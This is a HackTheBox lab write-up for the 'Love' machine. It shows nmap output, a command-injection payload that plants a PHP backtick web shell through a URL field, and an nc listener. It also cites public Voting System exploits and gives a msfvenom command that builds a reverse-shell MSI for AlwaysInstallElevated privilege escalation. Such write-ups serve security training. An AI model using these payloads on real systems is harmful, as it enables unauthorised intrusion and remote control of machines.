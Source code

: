 ```yaml
---
title: "Love"
date: 2023-11-07
categories: HTB
tags: ["love", "htb walkthrough", "ctf", "cybersecurity", "hackthebox", "htb writeup", "penetration testing", "writeup", "htb"]
---
```


## Enumeration
# TCP

```sh
PORT      STATE SERVICE      REASON  VERSION
80/tcp    open  http         syn-ack Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Voting System using PHP
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     syn-ack Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in/organizationalUnitName=love.htb/localityName=norway/emailAddress=roy@love.htb
| Issuer: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in/organizationalUnitName=love.htb/localityName=norway/emailAddress=roy@love.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-01-18T14:00:16
| Not valid after:  2022-01-18T14:00:16
| MD5:   bff0:1add:5048:afc8:b3cf:7140:6e68:5ff6
| SHA-1: 83ed:29c4:70f6:4036:a6f4:2d4d:4cf6:18a2:e9e4:96c2

|_http-title: 403 Forbidden
445/tcp   open  microsoft-ds syn-ack Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?       syn-ack
| mysql-info: 
|_  MySQL Error: Host '10.10.14.42' is not allowed to connect to this MariaDB server
| fingerprint-strings: 
|   Arucer, Hello, NULL, SSLSessionReq, ZendJavaBridge, afp, dominoconsole, epmd, gkrellm, ibm-mqseries, mongodb, redis-server, riak-pbc, tarantool, vp3: 
|_    Host '10.10.14.42' is not allowed to connect to this MariaDB server
5000/tcp  open  http         syn-ack Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp  open  unknown      syn-ack
5985/tcp  open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http     syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
| tls-alpn: 
|_  http/1.1
|_ssl-date: 2024-07-21T08:04:42+00:00; +21m34s from scanner time.
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Issuer: commonName=LOVE
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-04-11T14:39:19
| Not valid after:  2024-04-10T14:39:19
| MD5:   d35a:2ba6:8ef4:7568:f99d:d6f4:aaa2:03b5
| SHA-1: 84ef:d922:a70a:6d9d:82b8:5bb3:d04f:066b:12f8:6e73

|_http-title: Not Found
7680/tcp  open  pando-pub?   syn-ack
47001/tcp open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        syn-ack Microsoft Windows RPC
49665/tcp open  msrpc        syn-ack Microsoft Windows RPC
49666/tcp open  msrpc        syn-ack Microsoft Windows RPC
49667/tcp open  msrpc        syn-ack Microsoft Windows RPC
49668/tcp open  msrpc        syn-ack Microsoft Windows RPC
49669/tcp open  msrpc        syn-ack Microsoft Windows RPC
49670/tcp open  msrpc        syn-ack Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.94SVN%I=9%D=7/21%Time=669CB9F8%P=x86_64-pc-linux-

```
## Directory Fuzzing
### Gobuster

![[/assets/images/love11.png]]

# Screenshots

![[/assets/images/love1.png]]

http://staging.love.htb/
![[/assets/images/love2.png]]

http://staging.love.htb/beta.php
![[/assets/images/love3.png]]

## Testing for command injection
![[/assets/images/love7.png]]

![[/assets/images/love6.png]]

## Test for reverse shell
```sh
# kali
python3 -m http.server 80
# kali
nc -lvnp 9001
# form
http://10.10.14.42/$(<?=`$_GET[0]`?>)
```

![[/assets/images/love8.png]]

# /admin
http://10.10.10.239/Admin/
![[/assets/images/love9.png]]

# /plugins
http://10.10.10.239/plugins/
![[/assets/images/love10.png]]

# Initial Access
- Searching for `voting system` gives public exploit
- Using the public exploit gives initial shell as phoebe.

https://www.exploit-db.com/exploits/49843

![[/assets/images/love12.png]]

http://10.10.10.239/admin
![[/assets/images/love13.png]]

http://10.10.10.239/
![[/assets/images/love14.png]]
-> doesn't work on this URL

![[/assets/images/love15.png]]

https://www.exploit-db.com/exploits/49846
![[/assets/images/love16.png]]

upload a shell
![[/assets/images/love17.png]]

rev.ps1
![[/assets/images/love18.png]]

![[/assets/images/love19.png]]

PHP Ivan web shell
![[/assets/images/love20.png]]

# Lateral Movement
- N/A
# Privilege Escalation
- AlwaysInstallElevated

![[/assets/images/love21.png]]

![[/assets/images/love22.png]]

![[/assets/images/love23.png]]

![[/assets/images/love24.png]]

https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation
![[/assets/images/love25.png]]
```sh
msfvenom -p windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.42 LPORT=443 -f msi -o rev.msi
```

![[/assets/images/love26.png]]
